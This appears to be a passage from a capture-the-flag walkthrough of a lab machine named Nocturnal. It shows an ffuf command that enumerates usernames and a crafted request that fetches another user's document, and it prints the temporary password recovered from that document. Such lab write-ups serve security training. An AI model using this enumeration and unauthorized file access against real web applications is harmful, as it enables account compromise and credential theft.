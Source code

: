 ![image.png](Attack%20Path%201d4068bbc57d80fe8c30e840fd3b6b4c/image%207.png)

![image.png](Attack%20Path%201d4068bbc57d80fe8c30e840fd3b6b4c/image%208.png)

It seems to be working, but there are no files to download. We also check some of the other extensions but it did not amount to anything. Now let’s attempt to fuzz for usernames and find other users that might have files on the server.

First, let’s change the value for the username to =FUZZ, then copy to file. Now, we use ffuf

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -request view.req -request-proto http -fs 2985

amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 35ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 24ms]
```

Now, we can go back on burp, and go input the username as one of the users and search for files with file=*.*.

The following yielded results

```bash
username=amanda&filename=any.pdf

privacy.odt
```

It turns out, when we are trying the wildcard matching, the backend is not accepting the wildcard, but, it is probably just outputting files available after the error File does not exist. Let’s download this

Now in the response, highlight the content, excluding the headers, then copy to file and save it

![image.png](Attack%20Path%201d4068bbc57d80fe8c30e840fd3b6b4c/image%209.png)

```bash
Dear Amanda,
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.
Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.

Yours sincerely,
Nocturnal's IT team
```

We now have a password.

```bash
arHkG7HAI68X8s1J
```
